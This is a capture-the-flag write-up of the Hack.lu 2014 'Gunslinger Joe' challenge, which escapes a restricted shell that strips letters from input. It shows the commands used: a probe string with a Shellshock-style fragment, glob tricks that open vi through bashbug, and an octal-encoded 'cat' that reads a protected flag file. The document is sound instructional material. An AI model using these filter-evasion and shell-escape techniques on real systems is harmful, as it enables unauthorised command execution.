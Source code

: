 # Hack.lu CTF 2014: Gunslinger Joe’s private Terminal

**Category:** Misc
**Points:** 50
**Author:** cutz
**Description:**

> Gunslinger Joe has a pretty bad memory and always forgets the password for his private terminals! That’s why he always uses his username as password but also makes sure that absolutely no one else who knows his name can interact with his secure terminal. Wouldn’t it be super embarrassing for him to prove him wrong?
>
> SSH: gunslinger_joe@wildwildweb.fluxfingers.net
> PORT: 1403

## Write-up

Let’s connect to the SSH server using `gunslinger_joe` as both the username and password, as stated in the challenge description:

```bash
$ ssh -p 1403 gunslinger_joe@wildwildweb.fluxfingers.net
gunslinger_joe@wildwildweb.fluxfingers.net's password:

           ,'-',
          :-----:
      (''' , - , ''')
      \   ' .  , `  /
       \  '   ^  ? /
        \ `   -  ,'
         `j_ _,'       Gunslinger Joe's
    ,- -`\ \  /f        Private Terminal
  ,-      \_\/_/'-
 ,                 `,
 ,          Joe      ,
      /\          \
|    /             \   ',
,   f  :           :`,  ,
<...\  ,           : ,- '
\,,,,\ ;           : j  '
 \    \            :/^^^^'
  \    \            ; ''':
    \   -,         -`.../
     '    - -,`,--`
      \_._'-- '---:

$ id
$ ls
$ ls -lsa
: -: command not found
```

So we indeed have access to a shell, but something strange is going on… It seems like some characters are being filtered.

Entering `-` reveals that our input is passed as an argument to `bash`:

```bash
$ -
: -
: invalid option
Usage:  bash [GNU long option] [option] ...
  bash [GNU long option] [option] script-file ...
GNU long options:
  --debug
  --debugger
  --dump-po-strings
  --dump-strings
  --help
  --init-file
  --login
  --noediting
  --noprofile
  --norc
  --posix
  --rcfile
  --restricted
  --verbose
  --version
Shell options:
  -ilrsD or -c command or -O shopt_option   (invocation only)
  -abefhkmnptuvxBCHP or -o option
```

Realizing that causing a syntax error results in a helpful error message, I entered all printable ASCII characters to see which ones would be removed:

```
$ () { :;} `() { :;}  !"#$%&\'()*+,-./0123456789:;<=>?@[\\]^_`{|}~'
: -c: line 0: syntax error near unexpected token `)'
: -c: line 0: `() { :;} `() { :;}  !"#$%&\'()*+,-./0123456789:;<=>?@[\\]^_`{|}~''
```

So yeah, all alphabetic characters are removed from the input. Entering `*` reveals that there’s a file named `FLAG` in the current working directory:

```bash
$ *
: ./FLAG: Permission denied
```

Let’s check the root directory:

```bash
$ /*
: /bin: Is a directory
```

Hmm, what would the first item in `/bin/*` be?

```bash
$ /*/*
```

Yay! `/*/*` expands to `/bin/bashbug`, which causes `$EDITOR` — in this case, `vi` — to open. From within `vi` we can easily run arbitrary commands:

```
:!id
uid=1000(gunslinger_joe) gid=1000(gunslinger_joe) groups=1000(gunslinger_joe)

:!cat FLAG
flag{joe_thought_youd_suck_at_bash}
```

The flag is `flag{joe_thought_youd_suck_at_bash}`.

### Alternate solution #1

A shorter solution than the one depicted above, is the following.
Entering the character `.` displayed the error

```bash
$ .
: line 0: .: filename argument required
.: usage: . filename [arguments]
```

That looks like `.` is interpreted as a command. Earlier having figured out that `*` was a working way to iterate all files in the current directory, the following command yielded the right result:

```bash
$ . *
./FLAG: line 1: flag{joe_thought_youd_suck_at_bash}: command not found
```

It’s still an error, but at least it delivers.

### Alternate solution #2

Encode `cat` in octal and pass the `FLAG` file to stdin:

```bash
$ $'\143'$'\141'$'\164' <????
flag{joe_thought_youd_suck_at_bash}
```

## Other write-ups and resources

* none yet
